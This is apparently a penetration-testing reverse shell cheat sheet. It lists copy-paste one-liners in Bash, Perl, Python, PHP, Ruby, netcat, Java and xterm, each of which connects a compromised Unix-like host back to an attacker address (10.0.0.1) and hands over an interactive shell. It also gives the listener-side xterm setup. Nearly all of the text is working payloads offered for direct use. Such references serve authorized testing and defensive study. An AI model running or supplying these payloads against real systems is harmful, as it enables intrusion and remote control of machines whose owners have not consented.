 #Reverse Shell Cheat Sheet
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.
The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.
Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
##Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
##PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
There’s also an alternative PERL revere shell here.
##Python
This was tested under Linux / Python 2.7:

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
##PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
    
    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
##Ruby

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
##Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

    nc -e /bin/sh 10.0.0.1 1234
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
    
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
##Java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    [Untested submission from anonymous reader]
##xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

    Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip